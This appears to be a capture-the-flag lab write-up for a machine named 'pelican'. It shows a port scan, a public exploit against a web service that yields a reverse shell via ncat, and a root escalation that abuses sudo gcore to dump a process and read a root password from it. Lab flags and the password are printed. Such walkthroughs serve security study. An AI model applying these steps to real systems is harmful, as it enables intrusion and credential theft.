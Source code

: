 `└─$ autonmap -H 192.168.190.98 -t recon`

`Running a recon scan on 192.168.190.98`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT     STATE SERVICE`
`22/tcp   open  ssh`
`139/tcp  open  netbios-ssn`
`445/tcp  open  microsoft-ds`
`631/tcp  open  ipp`
`2222/tcp open  EtherNetIP-1`
`8080/tcp open  http-proxy`
`8081/tcp open  blackice-icecap`

Checking 8080, we get access denied
Checking 8081, it redirects us to this:

![[Pasted image 20240208112048.png]]

![[Pasted image 20240208112125.png]]


On exploitdb, we see this about half way down:
![[Pasted image 20240208112209.png]]

Let's try it
![[Pasted image 20240208112324.png]]

Get the shell + upgrade it

`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:4444`
`Ncat: Listening on 0.0.0.0:4444`
`Ncat: Connection from 192.168.190.98:59026.`
`whoami`
`charles`
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
`charles@pelican:/opt/zookeeper$` 

Local flag
`charles@pelican:/opt/zookeeper$ cat ~/local.txt`
`cat ~/local.txt`
`e9d8083d72798b637fc52e48cafefe3b`

You can run linpeas and it will tell you this, it's just one thing I check real quick
Turns out the user can run gcore with sudo

`charles@pelican:/opt/zookeeper$ sudo -l`
`sudo -l`
`Matching Defaults entries for charles on pelican:`
    `env_reset, mail_badpass,`
    `secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin`

`User charles may run the following commands on pelican:`
    `(ALL) NOPASSWD: /usr/bin/gcore`

According to this https://man7.org/linux/man-pages/man1/gcore.1.html gcore is a process dumper so let's look at the processes

Use ps -eo user,pid,cmd,etime to check processes
We find an interesting one
`root       493 /usr/bin/password-store`

Dump it
`charles@pelican:/opt/zookeeper$ cd /tmp`
`cd /tmp`
`charles@pelican:/tmp$ sudo /usr/bin/gcore 493`
`sudo /usr/bin/gcore 493`
`0x00007f40ff4dd6f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7ffc48e50c90, remaining=remaining@entry=0x7ffc48e50c90) at ../sysdeps/unix/sysv/linux/nanosleep.c:28`
`28	../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.`
`Saved corefile core.493`
`[Inferior 1 (process 493) detached]`

Use strings to display it 
`charles@pelican:/tmp$ strings core.493`

We see this
`001 Password: root:`
`ClogKingpinInning731`

Su to root
`charles@pelican:/tmp$ su root`
`su root`
`Password: ClogKingpinInning731`
`root@pelican:/tmp# cat /root/proof.txt`
`cat /root/proof.txt`
`2642ed9fa8aee995678194a9c28cf239`



